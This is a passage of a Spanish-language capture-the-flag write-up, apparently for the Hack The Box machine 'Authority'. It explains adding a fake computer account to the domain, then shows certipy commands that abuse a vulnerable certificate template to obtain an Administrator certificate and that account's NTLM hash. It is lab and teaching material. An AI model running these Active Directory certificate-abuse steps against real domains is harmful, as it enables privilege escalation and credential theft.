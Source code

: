 Con esto, habremos logrado agregar un nuevo *Computer Object* al dominio.

- **`-method LDAPS`** ➜ El protocolo **LDAPS (Lightweight Directory Access Protocol Secure)** es un protocolo usado para la autenticación contra varios servicios de directorio. También tendríamos la opción de usar *SAMR*.
- **`-computer-name HEGOCIV$`** ➜ Agregamos el nuevo "*fake computer*" con nombre `HEGOCIV$`.
- **`--computer-pass 'hegociv123$'`** ➜ Especificamos una contraseña a la nueva cuenta de máquina `HEGOCIV$` para poderla usar más adelante.
- **`-dc-host 'AUTHORITY.AUTHORITY.HTB'`** ➜ Indicamos el controlador de dominio al que nos conectaremos para realizar la operación de creación de la máquina.
- **`-domain-netbios 'authority.htb'`** ➜ Definimos el nombre **NetBIOS** del dominio.
- Por último, introducimos las credenciales del usuario que tiene los permisos para realizar esta acción.

### **Solicitando el hash NTLM del Administrator**

Una vez agregado el equipo, al estar en el grupo *Certificate Service DCOM Access*, tenemos la posibilidad de solicitar un certificado `pfx` a nombre de *Administrator* con el cual posteriormente, podremos obtener el *hash NTLM* del administrador.

```bash
certipy req -username MACHINE-NAME$ -password 'MACHINE-PASSWORD' -ca AUTHORITY-CA -dc-ip DC-IP -template VULNERABLE-TEMPLATE-NAME -upn Administrator@DOMINIO -dns DOMINIO -debug
```

![req administrator pfx cert.png](/assets/img/req-administrator-pfx-cert.png)

Esto nos habrá generado un fichero `administrator_authority.pfx` en nuestro directorio actual. Haciendo uso de este certificado, podemos impersonar al usuario administrador y solicitar su hash NTLM en su nombre.

```bash
certipy auth -pfx administrator_authority.pfx -debug
```

![certipy auth administrator hash.png](/assets/img/certipy-auth-administrator-hash.png)
